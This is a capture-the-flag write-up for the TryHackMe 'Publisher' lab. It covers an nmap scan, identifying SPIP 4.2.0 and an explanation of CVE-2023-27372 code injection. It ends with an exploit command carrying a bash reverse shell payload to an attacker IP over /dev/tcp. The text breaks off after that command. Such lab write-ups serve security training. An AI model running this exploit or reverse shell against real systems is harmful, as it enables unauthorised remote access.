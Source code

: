 ## Writeup for "Publisher" from TryHackMe


First a nmap scan was performed on the target machine to see which ports are available.


```bash
$ nmap -sC -sV 10.10.105.203
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-02 09:30 EDT
Nmap scan report for 10.10.105.203
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.17 seconds
```


After the nmap scan, it can be seen that there are two ports open, each hosting a ssh and http server respectively. The site hosted on port 80 was visited.


On the site the software SPIP is running, which is a content management system. Based on this, it is inferred that there may be a /spip directory on the site. The directory was found to exist. When visiting the directory, a page appears displaying articles published on the site. Viewing the source code of the page, the following was found:


```html
<meta name="generator" content="SPIP 4.2.0" />
```


Thus, the version of SPIP used on the site was revealled to be 4.2.0. When researching this version of SPIP, it was found to be vulnerable to CVE-2023-27372. A POC of the exploit could be found on exploit-db. This exploit was used to gain a foothold on the box.


CVE-2023-27372 exploits a PHP code injection vulernability in SPIP by making a POST request at the endpoint /spip.php?page=spip_pass with a malicious command in the "oubli" parameter of the request. This vulnerability was the result of improper deserialisation of the string within "oubli" due to the dangerous use of #ENV in SPIP's reset password feature.


To exploit this vulnerability, a netcat listener on port 3096 was opened and the script was executed using the command:


```bash
$ python3 exploit.py -u http://10.10.105.203:80/spip -c '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.4.89.100/3096 0>&1"'
```
